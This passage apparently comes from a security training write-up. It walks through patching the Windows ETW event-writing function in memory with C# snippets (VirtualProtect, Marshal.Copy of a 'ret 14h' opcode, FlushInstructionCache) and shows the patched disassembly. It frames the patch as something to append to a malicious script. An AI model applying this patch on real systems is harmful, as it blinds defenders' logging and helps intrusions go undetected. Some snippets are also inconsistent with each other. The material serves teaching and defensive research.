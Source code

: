 At step two, we need to modify the memory permissions of the function to allow us to write to the function. The permission of the function is defined by the `flNewProtect` parameter; `0x40` enables X, R, or RW access ([memory protection constraints](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)).

```
uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);
```

At step three, the function has the permissions we need to write to it, and we have the pre-defined opcode to patch it. Because we are writing to a function and not a process, we can use the infamous `Marshal.Copy` to write our opcode.

```
patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch, 
	0, 
	etwEventSend, 
	patch.Length
);
```

At step four, we can begin cleaning our steps to restore memory permissions as they were.

```
VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);
```

At step five, we can ensure the patched function will be executed from the instruction cache.

```
Win32.FlushInstructionCache(
	etwFunction,
	NULL
);
```

We can compile these steps together and append them to a malicious script or session. Use the C# script provided and experiment with this technique.

After the opcode is written to memory, we can view the disassembled function again to observe the patch.

```
779f23c0 c21400		    ret	14h
779f23c3 00ec		      add	ah, ch
779f23c5 83e4f8		    and	esp, 0FFFFFFF8h
779f23c8 81ece0000000	sub	esp, 0E0h
In the above disassembly, we see exactly what we depicted in our LIFO diagram (figure 2).
```

